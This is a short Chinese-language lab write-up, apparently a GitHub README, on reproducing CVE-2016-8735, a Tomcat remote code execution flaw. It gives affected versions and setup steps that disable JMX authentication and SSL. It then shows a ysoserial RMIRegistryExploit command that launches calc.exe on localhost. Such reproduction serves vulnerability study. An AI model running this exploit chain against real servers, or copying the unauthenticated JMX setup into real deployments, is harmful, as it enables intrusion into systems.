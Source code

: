 # CVE-2016-8735

## 介绍
Apache Tomcat Remote Code Execution  
Tomcat引入一些功能导致远程代码注入  
Tomcat在配置JMX做监控时使用了JmxRemoteLifecycleListener的方法  

## 漏洞影响版本
```
ApacheTomcat 9.0.0.M1 到9.0.0.M11
ApacheTomcat 8.5.0 到8.5.6
ApacheTomcat 8.0.0.RC1 到8.0.38
ApacheTomcat 7.0.0 到7.0.72
ApacheTomcat 6.0.0 到6.0.47
```

## 相关资源下载
ApacheTomcat 8.5.2：  
https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.2/bin/apache-tomcat-8.5.2-windows-x64.zip  
catalina-jmx-remote.jar：  
https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.2/bin/extras/catalina-jmx-remote.jar  
groovy-2.3.9.jar：  
http://central.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar  
ysoserial.jar：  
https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar  
Jdk1.7.0_80：  
https://www.oracle.com/technetwork/java/javase/downloads/java-archive-downloads-javase7-521261.html （登录才能下载）  

## 环境配置
只测试了win7  
1. 安装jdk，并创建环境变量JAVA_HOME  
2. 解压tomcat，将catalina-jmx-remote.jar、groovy-2.3.9.jar复制到tomcat/lib/下  
3. 修改文件  
    tomcat/bin/catalina.bat 在"ExecuteThe Requested Command"注释的上一行添加
    ```bat
    set CATALINA_OPTS=-Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.authenticate=false
    ```
    tomcat/conf/server.xml 在listener下添加
    ```xml
    <Listener className="org.apache.catalina.mbeans.JmxRemoteLifecycleListener" rmiRegistryPortPlatform="10001" rmiServerPortPlatform="10002" />
    ```

## 漏洞触发
双击tomcat/bin/start.bat 启动tomcat  
执行命令：  
```r
java -cp ysoserial-master-f31677fbc3-1.jar ysoserial.exploit.RMIRegistryExploit localhost 10001 Groovy1 "calc.exe"
```

效果是计算器被打开  


## 参考
1. http://blog.safebuff.com/2016/12/05/Apache-Tomcat-Remote-Code-Execution-CVE-2016-8735/
2. https://www.jianshu.com/p/1581b9b2849b // 这个描述比较准确
3. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-8735


---
2018/12/11  
